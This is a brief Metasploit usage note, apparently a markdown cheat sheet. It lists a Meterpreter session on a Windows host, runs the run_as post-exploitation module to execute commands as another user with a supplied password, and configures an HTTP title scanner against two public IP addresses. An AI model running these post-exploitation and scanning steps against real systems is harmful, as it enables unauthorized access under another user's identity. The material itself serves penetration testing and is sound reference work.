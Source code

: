 ## List sessions

```
sessions -l

Active sessions
===============

  Id  Name  Type                     Information                Connection
  --  ----  ----                     -----------                ----------
  3         meterpreter x86/windows  hosname\user @ netbios  10.0.0.254:57896 -> 10.0.0.1:50994 (10.0.0.1)
```

## Run a command as another user on Windows

```
msf5 exploit(multi/handler) > use post/windows/manage/run_as
msf5 post(windows/manage/run_as) > set CMD whoami
CMD => whoami
msf5 post(windows/manage/run_as) > set CMDOUT true
CMDOUT => true
msf5 post(windows/manage/run_as) > set PASSWORD mypwd
PASSWORD => mypwd
msf5 post(windows/manage/run_as) > set USER alice
USER => alice
msf5 post(windows/manage/run_as) > set SESSION 3
SESSION => 3
msf5 post(windows/manage/run_as) > set DOMAIN .
DOMAIN => .
msf5 post(windows/manage/run_as) > run

[*] Executing CreateProcessWithLogonW...
[+] Process started successfully, PID: 4388
[*] Command Run: cmd.exe /c whoami > C:\Windows\Temp\NuhelUOR.txt
[*] Command output:
hostname\alice

[*] Removing temp file C:\Windows\Temp\NuhelUOR.txt
[*] Post module execution completed
```

## Set HTTP headers

Let's say you want to run the `auxiliary/scanner/http/title` module with the following
configuration.

```
msf6 auxiliary(scanner/http/title) > options

Module options (auxiliary/scanner/http/title):

   Name         Current Setting                                     Required  Description
   ----         ---------------                                     --------  -----------
   Proxies                                                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       54.186.210.202 54.188.216.194                       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        443                                                 yes       The target port (TCP)
   SHOW_TITLES  true                                                yes       Show the titles on the console as they are grabbed
   SSL          true                                                no        Negotiate SSL/TLS for outgoing connections
```